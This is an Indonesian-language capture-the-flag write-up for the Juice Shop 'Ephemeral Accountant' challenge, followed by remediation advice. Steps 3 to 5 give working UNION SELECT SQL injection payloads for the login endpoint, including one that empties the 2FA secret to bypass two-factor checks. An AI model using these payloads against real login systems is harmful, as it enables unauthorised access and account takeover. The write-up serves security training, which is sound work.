 # Ephemeral Accountant

## Challenge Overview

**Judul:** Ephemeral Accountant

**Kategori:** SQL Injection

**Kesulitan:** ⭐⭐⭐⭐ (4/6)

Tujuan challenge ini adalah **masuk sebagai user sementara** `acc0unt4nt@juice-sh.op` tanpa pernah mendaftarkan akun tersebut. Eksploitasi dilakukan dengan menyuntikkan `UNION SELECT` ke query login sehingga backend “melihat” record user palsu hanya untuk durasi eksekusi query (ephemeral), kemudian memberikan token/autentikasi.

---

## Tools Used

* **Web browser** — mengakses UI login.
* **Burp Suite** (Proxy / Repeater) — intercept dan modifikasi request `POST /rest/user/login`.
* Pengetahuan struktur tabel `Users` (didapat dari challenge *Database Schema*).

---

## Step by Step Solution

1. **Konfirmasi struktur tabel `Users`**
   
   Dari challenge Database Schema diketahui tabel `Users` memiliki 13 kolom:

   ```
   id, username, email, password, role, deluxeToken,
   lastLoginIp, profileImage, totpSecret, isActive,
   createdAt, updatedAt, deletedAt
   ```
    ![alt text](assets/ephemeral1.jpg)
   Informasi ini dipakai agar payload `UNION SELECT` cocok jumlah kolomnya.

2. **Intercept request login**
   
   Tangkap request POST ke `/rest/user/login` via Burp atau DevTools. Contoh body normal:

   ```json
   {
     "email": "user@example.com",
     "password": "password123"
   }
   ```

3. **Payload awal**
   
   Suntikkan payload pada field `email` untuk membentuk row palsu lewat `UNION SELECT`:

   ```sql
   admin' UNION SELECT * FROM (
     SELECT 67, 'acc0unt4nt@juice-sh.op', 'acc0unt4nt@juice-sh.op',
     'aaaa', 'Administrator', '1234', '127.0.0.1',
     '/assets/public/images/uploads/default.svg',
     '676941', 0, 1, 2, 3
   )--
   ```

   Kirim request dengan `password` sesuai field `'aaaa'` (atau sembarang).

   ![alt text](assets/ephemeral2.jpg)
   **Hasil:** aplikasi menolak karena meminta **2FA** (kolom `totpSecret` berisi nilai).

4. **Bypass 2FA — kosongkan `totpSecret`**
   
   Ubah kolom `totpSecret` di subquery menjadi string kosong:

   ```sql
   admin' UNION SELECT * FROM (
     SELECT 67, 'acc0unt4nt@juice-sh.op', 'acc0unt4nt@juice-sh.op',
     'aaaa', 'Administrator', '1234', '127.0.0.1',
     '/assets/public/images/uploads/default.svg',
     '', 0, 1, 2, 3
   )--
   ```
    ![alt text](assets/ephemeral3.jpg)
   **Hasil:** muncul error `FOREIGN KEY constraint failed` (karena `id = 67` tidak valid untuk constraint DB).

5. **Perbaiki FOREIGN KEY — gunakan id valid**
   Ganti `id` menjadi nilai yang valid di DB (mis. `20`):

   ```sql
   admin' UNION SELECT * FROM (
     SELECT 20, 'acc0unt4nt@juice-sh.op', 'acc0unt4nt@juice-sh.op',
     'aaaa', 'Administrator', '1234', '127.0.0.1',
     '/assets/public/images/uploads/default.svg',
     '', 0, 1, 2, 3
   )--
   ```
   Kirim request final dengan `password` = `aaaa`.

   ![alt text](assets/ephemeral4.jpg)
   **Hasil akhirnya:** login sukses — server memberikan token dan sesi aktif sebagai `acc0unt4nt@juice-sh.op`.

6. **Verifikasi**

   * Masuk ke halaman profil/account untuk memastikan nama/email yang tampil adalah `acc0unt4nt@juice-sh.op`.
   * Ambil screenshot sebagai bukti (login sukses).

---

## Solution Explanation

* Teknik `UNION SELECT` menambahkan baris hasil query yang **mencerminkan schema tabel Users** — sehingga backend memproses user palsu itu seolah nyata pada saat eksekusi query login.
* Mengosongkan `totpSecret` mencegah aplikasi meminta 2FA.
* Menggunakan `id` yang valid menghindari constraint DB (FOREIGN KEY) sehingga query tidak error.
* Karena aplikasi tidak memverifikasi bahwa record itu memang “persisted” di tabel (melainkan hanya memeriksa hasil SELECT), injeksi ini menghasilkan sesi yang sah untuk user ephemeral.

---

## Remediation

Untuk mencegah eksploitasi serupa pada aplikasi produksi:

1. **Prepared Statements / Parameterized Queries**
   Jangan pernah buat query SQL dengan menggabungkan string input user. Gunakan parameter binding agar input diperlakukan sebagai data, bukan bagian query.

2. **Validasi Server-side yang Ketat**

   * Pastikan user yang berhasil di-query benar-benar ada di tabel (mis. cek existence by primary key) dan bukan hasil gabungan/constructed row.
   * Validasi format dan nilai input di server (email regex, panjang, karakter terlarang).

3. **Kurangi Informasi Error**
   Jaga agar pesan error DB (contoh: constraint failure) tidak bocor ke client; log internal tetapi tampilkan pesan generik.

4. **Otorisasi dan Cek Integritas**
   Setelah autentikasi, lakukan pemeriksaan tambahan (mis. cek apakah user memiliki entitas terkait yang konsisten) sebelum mengeluarkan token/akses.

5. **Least Privilege & Hardening DB**
   Batasi hak akses DB user aplikasi. Nonaktifkan kemampuan yang tidak perlu yang bisa memudahkan `UNION`/SELECT sensitif.

6. **Audit & Testing Rutin**
   Jalankan scanning SAST/DAST, penetration test, dan review query yang mengonsumsi input user (khususnya endpoint login).